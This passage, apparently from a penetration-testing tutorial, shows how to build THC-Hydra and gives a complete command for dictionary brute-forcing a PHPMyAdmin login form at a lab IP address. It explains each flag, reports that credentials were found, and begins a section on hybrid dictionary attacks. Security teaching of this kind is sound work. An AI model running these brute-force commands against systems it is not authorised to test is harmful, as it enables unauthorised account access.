 You can alternatively build **Hydra** directly from the source code

```bash
cd /tmp/
git clone https://github.com/vanhauser-thc/thc-hydra
cd thc-hydra/
./configure
make
make install
```

**Usage**

For attacking one target or a network, you can use the new "://" style: hydra [some command-line options] PROTOCOL://TARGET:PORT/MODULE-OPTIONS The old mode can be used for these too, and additionally if you want to specify your targets from a text file, you must use this one:

```bash
hydra [some command-line options] [-s PORT] TARGET PROTOCOL [MODULE-OPTIONS]
```

Via the command line options, you specify which logins to try, which passwords, if SSL should be used, how many parallel tasks to use for attacking, etc.

For this article, we will use **Hydra** to gain access to PHPMyAdmin onto a remote server. If you need some good dictionaries list, I recommend those made available by [SkullSecurity](https://wiki.skullsecurity.org/Passwords) and by [Daniel Miessler](https://github.com/danielmiessler/SecLists/) that you can download freely.

To try to gain access to PHPMyAdmin we will run the following command.

```bash
hydra -t 1 -L users.list -P passwords.list -f -vV 3.11.107.102 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=1:denied"
```

Before to see the output of the above command, let have a look at every parameter.

- **-t** it's used to configure the number of parallel connection
- **-L** define the path of the file containing the logins
- **-P** define the path of the file containing the passwords
- **-f** to force the program to exit if a login/pass pair is found
- **-vV** to execute the command in verbose∕debug mode
- **3.11.107.102** the IP address of our pentest lab
- **http-post-form** the path of the form that our tool will try to gain access

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/a5efb03c4c5e05f30239b09665cd87a8-1.png "Image-1")

As you can see on the above screenshot, after a few attempts, **Hydra** did found the correct combination of username and password allowing us to gain access to PHPMyAdmin.

* * *

###### HYBRID DICTIONARY ATTACK

**Hybrid Dictionary** attack uses a set of dictionary words combined with extensions. For example, we have the word "admin" and combine it with number extensions such as "admin123", "admin147", etc...

